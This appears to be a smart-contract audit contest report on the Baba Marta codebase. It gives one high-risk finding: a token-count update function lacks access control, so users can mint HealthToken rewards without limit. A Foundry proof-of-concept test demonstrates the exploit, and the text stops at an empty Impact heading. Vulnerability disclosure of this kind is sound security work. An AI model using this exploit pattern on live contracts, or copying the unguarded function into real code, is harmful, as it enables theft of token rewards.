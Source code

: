 https://www.codehawks.com/report/cluseb1bf0001s4tjl2rzajup

Final rank: #24

# High Risk Findings

## <a id='H-01'>`MartenitsaToken:updateCountMartenitsaTokensOwner` user can update the count of martenitsaTokens without any restrictions (validated) </a>

### Relevant GitHub Links

https://github.com/Cyfrin/2024-04-Baba-Marta/blob/5eaab7b51774d1083b926bf5ef116732c5a35cfd/src/MartenitsaToken.sol#L62

## Summary

in `MartenitsaToken:updateCountMartenitsaTokensOwner` users can update the count of martenitsaTokens without any restrictions. Then they will be able to collect as many HealthTokens as they want.

## Vulnerability Details

By updating the count of martenitsaTokens without any restriction users will be able to mint HealthToken indefinitely.

1. Update count of martenitsaTokens with `MartenitsaToken:updateCountMartenitsaTokensOwner`
2. Collect the number of HealthTokens in proportion to the number of (fake) tokens you have (1 HealthToken for 3 fake MartenitsaTokens) by calling `MartenitsaMarketplace:collectReward`.

In this test we will collect 3 HealthToken while we don't have any martinetsaToken.

```cpp
 function testVulnCollectReward() public {
        vm.startPrank(bob);
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
        marketplace.collectReward();
        assert(healthToken.balanceOf(bob) == 3 * 10 ** 18);
        vm.stopPrank();
    }
```

## Impact
